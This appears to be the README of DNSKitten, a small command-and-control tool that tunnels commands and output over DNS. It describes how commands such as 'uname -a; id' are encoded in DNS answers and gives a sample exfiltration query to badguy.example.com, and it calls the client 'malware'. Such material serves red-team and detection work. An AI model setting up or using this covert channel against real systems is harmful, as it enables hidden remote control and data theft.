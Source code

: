 DNSKitten
=========

In the spirit of netcat, but uses DNS instead of TCP.  Directly inspired by
[dnscat2](https://github.com/iagox86/dnscat2), but much smaller and
client-agnostic.

Features:
- Sends data from stdin to a client via DNS
- Sends data from DNS requests from a client to stdout
- Ignores duplicate requests

For legal use only.

Installation
------------
```bash
go get github.com/magisterquis/dnskitten
```

The included build.sh script can be used to build for a variety of platforms.

Clients
-------
There is no one reference client (i.e. malware) for DNSKitten.  In the
[`clients`](./clients) directory ~are some~ is an example~s~, but in general, DNSKitten
is client-agnostic.

DNSKitten does no demultiplexing of clients.  In general, it's a pretty simple
tool.  Multiple clients will need multiple intstances of DNSKitten.  One way to
do this is to assign each client a subdomain and have the main resolver forward
requests for each subdomain to a separate local instance of DNSKitten.  Tmux is
helpful for this.

Requests
--------
Each request must use a name (qname) which is unique for the previous 10240
requests.  This is to prevent caching and help mitigate duplicate output
caused by excitable resolvers trying to refresh cached data.  An easy way to do
this is to prepend a counter or random string to the domain in the request,
e.g. `example.com` -> `391.example.com`.

C2 -> Client
------------
Data to be sent from the C2 server to the Client (e.g. a command to execute)
can be requested with any of the following record types (qtype):

| QType | Encoding | Example                                                                                                                   |
|-------|----------|---------------------------------------------------------------------------------------------------------------------------|
| A     | Three bytes, base64-encoded                        | `who` -> `d2hv` -> 64.32.68.76                                                  |
| AAAA  | Same as A, but 12 encoded bytes                    | `uname -a; id` -> `dW5hbWUgLWE7IGlk` -> 6457:3568:6257:5567:4c57:4537:4947:6c6b |
| TXT   | A single byte string, up to 128 bytes              |                                                                                 |
| URI   | Same as TXT, with the Priority and Weight set to 0 |                                                                                 |

Client -> C2
------------
Data to be sent from the Client to the C2 server (e.g. command output) should
be hex-encoded and made the leftmost label of a domain ending in `.o.<domain>`.
Each request should be unique to prevent caching.  This is easily performed by
adding a label to the requested name with a counter or a random string.  An
NXDOMAIN response will be returned.

If the output to be returned is `kitten` and the domain is
`badguy.example.com`, a valid request might be
```
6b697474656e.1234.o.badguy.example.com
```
Note the label with 1234 is to prevent caching.

Examples
--------
Coming soon.

Windows
-------
Should work with no modifications.  Binaries available upon request.
